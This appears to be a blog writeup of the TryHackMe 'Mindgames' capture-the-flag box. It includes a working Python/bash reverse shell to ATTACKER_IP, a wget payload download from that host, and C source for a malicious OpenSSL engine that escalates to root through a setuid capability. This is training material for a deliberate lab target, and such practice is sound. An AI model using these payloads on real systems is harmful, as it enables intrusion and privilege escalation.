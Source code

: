 ```yaml
---
layout: post
title:  "Mindgames Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on
[TryHackMe](https://tryhackme.com/r/room/mindgames){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!
{: .prompt-tip }

## Enumeration
### Ports
As always, begin with a port scan to see accessible services

```bash
rustscan -a VICTIM_IP -- -A -oA scan -sC
```

![scan1](/images/mindgames/mindgames-scan1.png)

![scan2](/images/mindgames/mindgames-scan2.png)

There are two services running
- 22: SSH
- 80: HTTP

### Web
> What cipher is being used as the input?
{: .prompt-tip}

Let's visit the web server and start investigating

![homepage](/images/mindgames/mindgames-homepage.png)

So we're given some weird text and a place to run it. 
If you're familiar with ciphers you might already 
recognize what this weird text is, but if not don't 
worry! You can always use 
[this website](https://www.dcode.fr/cipher-identifier){:target="_blank"}{:rel="noopener noreferrer"}
to figure out what cipher is being used.

![identify-cipher](/images/mindgames/mindgames-identify-cipher.png)

So the cipher is called Brainfuck! Let's decode this to see what exactly is being run

![hello-world](/images/mindgames/mindgames-hello-world.png)

This looks like python. To be sure, let's decode the fibonacci example as well.

![fibonacci](/images/mindgames/mindgames-fibonacci.png)

This is definitely python. It looks like this program takes user input, decodes it, and then runs it through python. This sounds exactly like remote code execution

## Initial Foothold
> How can we use python to create a reverse shell?
{: .prompt-tip}

Here is a very handy 
[reverse shell generator](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}

```python
import os
os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'")
```

This essentially executes a bash reverse shell using python. I've found a lot of success with this particular bash payload to the point where I have a macro assigned to it! We can use the same website to encode our python and get our brainfuck ciphertext
I use quite often. If one command doesn't work for you, remember to be persistent and try the other options! This is what I used

![bf-payload](/images/mindgames/mindgames-bf-payload.png)

Let's set up a listener to accept the reverse shell and run it

```bash
nc -lvnp 4444
```

![revshell](/images/mindgames/mindgames-revshell.png)

Success! Since python3 is available we can stabilize our shell with the following

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

We're already the mindgames user so we can immediately read 
`user.txt`

![user-flag](/images/mindgames/mindgames-user-flag.png)

## Root
> Are there any files with interesting permissions or capabilities?
{: .prompt-tip}

We can get the capabilities of files using this command

```bash
getcap -r / 2>/dev/null
```

![capabilities](/images/mindgames/mindgames-capabilities.png)

`/usr/bin/openssl` has the setuid capability set. 
According to the 
[man pages](https://www.man7.org/linux/man-pages/man2/setuid.2.html){:target="_blank"}{:rel="noopener noreferrer"},
`setuid` is able to set the effective user id of the 
created process. So if we can create a shell, we can 
effectively get root permissions!

Doing a a bit of searching I found 
[this writeup](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/){:target="_blank"}{:rel="noopener noreferrer"}
which gives us instructions to escalate privileges with 
`openssl`

### Exploit Generation
On our machine we'll compile the shared object file the exploit will use. In order to use the openssl engine header in C we'll need to install the proper libraries. On Debian based systems we can run

```bash
sudo apt-get install libssl-dev
```

Then copy this C code to a file named
`openssl-exploit-engine.c`

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Next we'll compile and create a library file with the following

```bash
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

### Exploit Upload
We need to upload this to the machine. This can be done any number of ways but today we'll use python

```bash
# in the directory with opensssl-exploit-engine.so
python3 -m http.server 80

# on the victim machine
wget http://ATTACKER_IP/openssl-exploit-engine.so
```

### Shell
Now that everything is set up we can get a root shell with the following

```bash
openssl req -engine ./openssl-exploit-engine.so
```

![root-flag](/images/mindgames/mindgames-root-flag.png)

## Recap
Web homepage has a service which decodes brainfuck inputted by the user and executes python on the server.  A python reverse shell is used to gain a foothold into the system.
`openssl` has the setuid capability enabled which escalates our privileges to root.

